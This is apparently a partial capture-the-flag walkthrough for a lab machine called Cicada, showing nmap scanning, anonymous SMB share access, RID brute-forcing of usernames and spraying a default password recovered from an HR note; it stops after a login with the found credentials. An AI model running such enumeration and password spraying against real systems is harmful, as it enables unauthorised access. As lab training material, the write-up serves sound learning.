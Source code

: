 # Cicada - Windows(Easy)

## Summary

## Inital startup
Check that you have successfully connected to the VPN and you can reach the box.

```
openvpn lab_connection.ovpn
ping <target IP>
```

![ping](Images/ping.png)


## Enumeration
Begin enumeration on the host by running an Nmap scan. 

```
sudo nmap -sC -sV <target IP>

-sC 
-sV Version Scan
```

![nmap](Images/nmap.png)

This returns quite a bit of information. We can see that a few ports are open, most notably port 445(SMB).

## Investigating SMB
We can check SMB by using netexec and smbclient.

```
netexec smb <target IP>
- Check SMB

netexec winrm <target IP>

smbclient -NL <target IP>
- List SMB shares
```

![nxc](Images/nxc.png)

After checking the listed shares we find out that the HR share can be accessed with an anonymous user (no username/password is required).

```
smbclient //<target IP>/HR
```

![HR](Images/HR.png)

We can then retrieve the 'Notice from HR.txt' file by using the get command.
Back on our attacking machine we can cat the file to read the contents. 

![HRContent](Images/HRContent.png)

Here we can see the default password that is provided to new hires.

Now we can use the --rid-brute option in netexec to brute force a list of usernames and output them to a txt file.

```
netexec smb <target IP> -u 'anonymous' -p '' --rid-brute > user_name_enum.txt
```

![UserEnum](Images/UserEnum.png)

Clean up the output so that only the text file only contains the usernames.
Then use netexec to check to see if the default password is still in use by any of the accounts.

```
netexec smb <target IP> -u userNames.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```
![UserEnumPwd](Images/UserEnumPwd.png)

We can see that the password worked for the user michael.wrightson

smbclient -L <target IP> -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'



